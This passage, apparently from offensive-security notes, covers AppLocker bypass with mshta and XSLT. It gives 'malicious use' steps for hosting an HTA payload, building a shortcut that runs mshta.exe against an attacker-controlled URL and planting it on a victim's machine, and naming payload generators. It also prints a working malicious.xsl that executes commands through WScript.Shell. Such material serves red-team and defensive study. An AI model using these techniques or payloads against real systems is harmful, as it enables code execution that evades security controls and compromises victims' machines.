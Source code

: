 ```js
</script>
</body> 
</html>
```

```cmd
mshta test.hta
```

### XSL Transform
#### Malicious use
- start webserver
- save POC in web root  
- create a shortcut `C:\\Windows\\System32\\mshta.exe http://<attacker ip>/test.hta` and name it
- have to get shortcut file on victim's machine
- Can use DotNetToJscript or SuperSharpShooter to generate payload to plant in the hta file

Using XSLT (Extensible Stylesheet Language Transformations) to bypass AppLocker can be a technique employed by attackers to execute arbitrary code in an environment where AppLocker policies are enforced to restrict executable files. Here's a step-by-step explanation of how this technique might be used:

#### What is XSLT?
XSLT is a language for transforming XML documents into other formats such as HTML, text, or another XML document. 

#### Using XSLT to Execute Code
1. **Craft an XSLT File**: The attacker creates an XSLT file that contains embedded script or commands to be executed. XSLT has elements like `<msxsl:script>` that can contain JScript or VBScript.

2. **Invoke the XSLT File**: The attacker uses a legitimate Windows utility (like `msxsl.exe` or Internet Explorer) to process the malicious XSLT file.

Here's an example of an XSLT file (`malicious.xsl`) with embedded JScript:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
    <msxsl:script language="JScript" implements-prefix="user">
        <![CDATA[
        function execute() {
            var shell = new ActiveXObject("WScript.Shell");
            shell.Run("cmd.exe /c calc.exe");
        }
        ]]>
    </msxsl:script>
    <xsl:template match="/">
        <xsl:value-of select="user:execute()"/>
    </xsl:template>
</xsl:stylesheet>
```
